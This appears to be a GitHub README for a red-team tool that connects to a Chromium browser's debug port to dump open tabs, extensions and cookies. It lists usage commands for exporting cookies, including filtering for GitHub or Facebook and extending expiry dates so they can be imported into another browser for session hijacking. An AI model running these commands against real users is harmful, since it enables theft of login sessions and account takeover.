 # WhiteChocolateMacademiaNut

![WhiteChocolateMacademiaNut](./example.png)

## Description
Interacts with [Chromium-based browsers' debug port](https://blog.chromium.org/2011/05/remote-debugging-with-chrome-developer.html) to view open tabs, installed extensions, and cookies. Tested against Google Chrome and Microsoft Edge.

## Usage
- Dump the user's open tabs and installed extensions
    - ```./WhiteChocolateMacademiaNut -p 4200 -d pages```
- Dump the user's cookies in human-readable format
    - ```./WhiteChocolateMacademiaNut --port 1337 --dump cookies --format human```
- Dump the user's cookies in raw JSON as returned by Chromium
    - ```./WhiteChocolateMacademiaNut --port 1234 --dump cookies --format raw```
- Dump the user's cookies in JSON with the name, value, domain, path, and modified expirationDate attribute to 10 years in the future (compatible with [Cookiebro extension](https://nodetics.com/cookiebro/))
    - ```./WhiteChocolateMacademiaNut -p 666 -d cookies -f modified```
- Dump the user's cookies in JSON if the cookie name or domain field contains `github` and modifies the expirationDate attribute
    - ```./WhiteChocolateMacademiaNut -p 4321 -d cookies -f modified -g github```
- Dump the user's cookies in human-readable format if the cookie name or domain field contains `facebook`
    -  ```./WhiteChocolateMacademiaNut -p 31415 -d cookies -f human -g facebook```

## References
- https://mango.pdf.zone/stealing-chrome-cookies-without-a-password
- https://github.com/defaultnamehere/cookie_crimes